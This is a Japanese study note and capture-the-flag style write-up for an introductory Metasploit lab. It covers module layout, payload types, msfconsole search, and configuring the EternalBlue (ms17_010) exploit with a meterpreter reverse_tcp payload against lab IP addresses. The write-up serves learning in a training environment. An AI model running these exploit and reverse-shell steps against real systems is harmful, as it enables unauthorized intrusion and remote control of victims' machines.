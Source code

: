 metasploit framework

metasploit consoleからから使用  
脆弱性の攻撃  
ターゲットのスキャン  
ブルートフォース攻撃の実行  

ターゲットシステム上に存在する脆弱性の一部、これをエクスプロイト  
ペイロードは脆弱性の利用  
ペイロードはターゲットシステム上で実行されるコード  
機密情報の読み取り等、エクスプロイトして得たい結果次第  

## metasploit framework module  
--- 
metasploitframework自体は,
/optにある  
moduleの確認  
kali はdefaultでtreeコマンド入ってないよ  

```
/opt/metasploit-framework-5101/modules
```

大体、defaultではここに入ってるっぽい  
<br>
エンコーダーはセキュリティソフト対策  
<br>
metasploitはターゲット上のシステムのシェルを開くペイロードをデフォルトで備えている。   
<br>
## payloadの種類  
---  
シングル： 自己完結型のペイロードで、追加コンポーネントをダウンロードする必要なし  
<br>

# write up    
<br>

## Metasploit: Introduction
###  Task 2  Main Components of Metasploit
Is "windows/x64/pingback_reverse_tcp" among singles or staged payload?

```
// 移動後
find payloads/ -name "*pingback_reverse_tcp*"
```
```
payloads/singles/windows/pingback_reverse_tcp.rb
payloads/singles/windows/x64/pingback_reverse_tcp.rb
payloads/singles/linux/x64/pingback_reverse_tcp.rb
payloads/singles/ruby/pingback_reverse_tcp.rb
payloads/singles/python/pingback_reverse_tcp.rb
```  
<br>

### Task 3  Msfconsole  
metasploit frameworkのインターフェイスはmsfconsole  
```
msfconsole
```  
コマンドで起動可能  
<br>
msfconsoleで最も便利なコマンドはsearch、  
metasploitのデータベース検索用  
指定された検索パラメータに関するモジュール  
cve エクスプロイト名  
```
// エクスプロイト名で検索
// クロスサイトスクリプション
search xss
// shellcode injection
search "shellcode injection"
```  
<br>
<br>

### Task 4  Working with modules
---  
<br>  
exploitするmoduleをセット  

```
// useで使用するmoduleを設定
use exploit/windows/smb/ms17_010_eternalblue
//victim addressを設定
set rhotes <victim address>
```
<br>

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.32.29      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.58.20      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

```

* RHOSTS: ターゲット・システムのIPアドレス。  
ネットワーク範囲を設定することもできる。  

* RPORT: リモートポート。脆弱なアプリが動いているターゲットシステムのポート  

* PAYLOAD: エクスプロイトで使用。  

* LHOST: 攻撃元のIP。  

* LPORT: リバースシェルが接続し直すために使用するポート。  
他のアプリが使用しない任意のポートに設定する。  

* SESSION: Metasploitを使用してターゲットシステムに確立された各接続は、セッションIDをもつ。  
これは、既存の接続を使用して、ターゲットシステムに接続するポストエクスプロイトモジュールで使用する。  
<br>
<br>
パラメータを設定したので、exploitコマンドを起動する。  
zコマンドをつけると、セッションをバックグラウンド。  



